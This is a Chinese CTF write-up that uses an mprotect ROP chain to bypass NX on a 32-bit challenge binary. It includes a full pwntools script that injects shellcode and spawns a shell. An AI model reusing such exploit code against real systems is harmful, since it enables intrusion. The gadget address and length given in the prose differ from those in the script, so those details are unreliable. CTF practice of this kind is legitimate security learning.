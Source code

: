 题目虽然开了NX保护，但我们可以通过mprotect函数将内存页的权限修改为可读可写可执行

这里需要注意的是指定的内存区间必须包含整个内存页（4K）。区间开始的地址start必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍。

所以我们选取的内存起始地址就是4k的整数倍

这里我们选取got表的起始地址（0x080EB000）为mprotect要修改的起始地址addr，将第二个参数len设为0x1000,第三个参数写为7（可读可写可执行）
![[Pasted image 20240918013812.png]]
mprotect的地址是0x0806ed40

  ![[Pasted image 20240918013453.png]]

用mprotect函数修改完权限后，再调用read函数将pwntools生成的shellcode代码注入到addr中，之后再将read函数返回地址写为addr地址，调用shellcode，获得shell

关于mprotect函数传参有点特殊，32位程序调用函数不需要寄存器传参，但是我们需要用ret来控制程序运行流程，

用工具 ROPgadget 随便选一个有三个寄存器加一个ret的gadget

  ![[Pasted image 20240918013510.png]]

这里我就选了：0x08063b9b : pop edi ; pop esi ; pop ebx ; ret

```Python
from pwn import *
context(log_level = 'debug',os = 'linux',endian = 'little',arch = 'i386')
context(terminal=['tnux','split'])
#sh = remote('node5.buuoj.cn',25135)
sh=process('./link')
elf = ELF('./link')
mprotect = 0x806ED40
pop3_ret = 0x0809e3e5
addr = 0x080eb000
read = elf.symbols['read']
shellcode = asm(shellcraft.sh())
payload = flat(['a' * 0x2d,mprotect,pop3_ret,addr,0x100,0x7,read,addr,0,addr,len(shellcode)])
sh.sendline(payload)
sh.sendline(shellcode)
sh.interactive()
```

  

运行获得shell

  

#### **总结**

总结来说就是在存在mprotect函数的情况下，如果出现打开文件之类的操作就可以控制.got.plt表进行内容的读取

payload构建流程：

```JavaScript
垃圾数据 --> mprotect函数地址 --> 三个连续的pop地址 --> .got.plt表起始地址 --> 内存长度 --> 内存权限 --> read函数
 --> read函数的三个参数 --> .got.plt表的起始地址
```

  